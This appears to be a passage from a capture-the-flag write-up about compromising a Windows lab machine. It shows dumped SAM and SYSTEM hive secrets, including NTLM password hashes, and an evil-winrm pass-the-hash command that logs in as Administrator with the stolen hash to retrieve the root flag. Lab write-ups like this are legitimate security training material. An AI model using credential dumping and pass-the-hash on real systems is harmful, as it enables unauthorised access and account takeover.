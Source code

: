 ```text
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 3c2b033757a49110a9ee680b46e8d620
============== SAM hive secrets ==============
HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

We can then pull the Administrator's NTLM hash and pass it to `evil-winrm`:

```shell
evil-winrm -i 10.10.11.35 -u administrator -H '2b87e7c93a3e8a0ea4a581937016f341'
```

Root flag found on Administrator's desktop.
